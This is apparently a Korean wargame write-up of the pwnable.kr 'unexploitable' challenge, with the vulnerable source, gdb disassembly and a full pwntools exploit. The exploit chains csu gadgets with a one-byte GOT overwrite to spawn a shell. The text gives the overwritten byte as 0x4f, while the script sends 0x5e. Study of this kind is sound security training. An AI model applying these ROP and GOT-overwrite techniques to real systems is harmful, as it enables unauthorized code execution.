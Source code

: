 ```yaml
---
layout: post
date: 2021-11-14
title: pwable.kr unexploitable write-up
tags: [ROP, pwnable, ]
categories: [wargame, pwnable.kr, ]
---
```


## 소스코드 분석


---


```c
#include <stdio.h>
void main(){
	// no brute forcing
	sleep(3);
	// exploit me
	int buf[4];
	read(0, buf, 1295);
}

```


코드는 간단하다. <br>
출력함수 없이 read 함수만 존재하고 bof가 터진다.<br><br>


## 취약점 분석


---


가젯이 많이 부족하다.<br>
쓸만한 가젯을 찾던 중에 syscall을 발견했고, csu 부분을 이용해서 execve를 실행시키면 될 거 같다.<br>
syscall은 read 함수의 got를 1byte 변조해서 사용했다.


```shell
pwndbg> disas read
Dump of assembler code for function __GI___libc_read:
   0x00007ffff7af2140 <+0>:	lea    rax,[rip+0x2e0891]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7af2147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af2149 <+9>:	test   eax,eax
   0x00007ffff7af214b <+11>:	jne    0x7ffff7af2160 <__GI___libc_read+32>
   0x00007ffff7af214d <+13>:	xor    eax,eax
   0x00007ffff7af214f <+15>:	syscall

```


{: file='gdb'}


하위 1byte를 0x4f로 변조해줬다.<br>
<br>


사실 삽질을 굉장히 많이 했는데, 처음엔 sleep 함수의 got를 변조할 생각이었다.<br>
하지만 syscall의 주소가 sleep 함수의 got와 하위 1.5 byte가 달랐기 때문에 실패하였다.<br>


```shell
pwndbg> disas sleep
Dump of assembler code for function __sleep:
   0x00007ffff7ac6640 <+0>:	push   rbp
   0x00007ffff7ac6641 <+1>:	push   rbx
   0x00007ffff7ac6642 <+2>:	sub    rsp,0x28
   0x00007ffff7ac6646 <+6>:	mov    rbx,QWORD PTR [rip+0x30681b]        # 0x7ffff7dcce68
   0x00007ffff7ac664d <+13>:	mov    rax,QWORD PTR fs:0x28
   0x00007ffff7ac6656 <+22>:	mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7ac665b <+27>:	xor    eax,eax
   0x00007ffff7ac665d <+29>:	mov    eax,edi
   0x00007ffff7ac665f <+31>:	mov    rdi,rsp
   0x00007ffff7ac6662 <+34>:	mov    QWORD PTR [rsp+0x8],0x0
   0x00007ffff7ac666b <+43>:	mov    rsi,rdi
   0x00007ffff7ac666e <+46>:	mov    ebp,DWORD PTR fs:[rbx]
   0x00007ffff7ac6671 <+49>:	mov    QWORD PTR [rsp],rax
   0x00007ffff7ac6675 <+53>:	call   0x7ffff7ac6760 <__GI___nanosleep> # here

```


{: file='gdb'}


```shell
pwndbg> disas __GI___nanosleep
Dump of assembler code for function __GI___nanosleep:
   0x00007ffff7ac6760 <+0>:	lea    rax,[rip+0x30c271]        # 0x7ffff7dd29d8 <__libc_multiple_threads>
   0x00007ffff7ac6767 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7ac6769 <+9>:	test   eax,eax
   0x00007ffff7ac676b <+11>:	jne    0x7ffff7ac6780 <__GI___nanosleep+32>
   0x00007ffff7ac676d <+13>:	mov    eax,0x23
   0x00007ffff7ac6772 <+18>:	syscall # here

```


{: file='gdb'}


때문에 read 함수의 syscall을 사용하기로 했다.
<br><br>
일단 read 함수를 통해서 bss 영역에 /bin/sh 문자열을 써주었고, 다시 read 함수를 사용해서 read@got를 syscall로 변조해줬다. <br>
하위 1byte를 변조했기 때문에 rax는 1로 세팅이 되어있었고, 덕분에 write 함수를 사용할 수 있었다. <br>
아무 곳에서 execve의 syscall number만큼 읽어들이면 rax가 그 숫자로 맞춰지기 때문에 rdi에 아까 써둔 문자열이 위치한 bss 영역의 주소를 넣어주면 쉘을 실행시킬 수 있다. <br>


<br>


## 익스플로잇


---


```python
#unexploitable.py
from pwn import *

s = ssh(user='unexploitable',host='pwnable.kr',port=2222,password='guest')
p = s.process("./unexploitable")

# p = process('./unexploitable')

e = ELF('./unexploitable')
bss = e.bss()

read_plt = e.plt['read']
read_got = e.got['read']

csu_init = p64(0x00000000004005e6)
csu_call = p64(0x00000000004005d0)

payload = 'A' * 24

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(bss)
payload += p64(0x8)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_got)
payload += p64(1)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(1)
payload += p64(read_got)
payload += p64(0x3b)
payload += csu_call

payload += 'A' * 0x38

payload += csu_init
payload += 'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(read_got)
payload += p64(bss)
payload += p64(0)
payload += p64(0)
payload += csu_call

p.send(payload)
sleep(3)
p.send('/bin/sh\\x00')
sleep(3)
p.send('\\x5e\\x00')

p.interactive()

```


<br>


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/db8d1d99-195e-4f89-8fd8-1fc58a1c83ef/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230628%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230628T181620Z&X-Amz-Expires=3600&X-Amz-Signature=f8b4e84e8c458b3b1a728575f007d372ba52e0ff009d8ec2f4e843c25c1fa8c0&X-Amz-SignedHeaders=host&x-id=GetObject)


쉘을 획득했다.

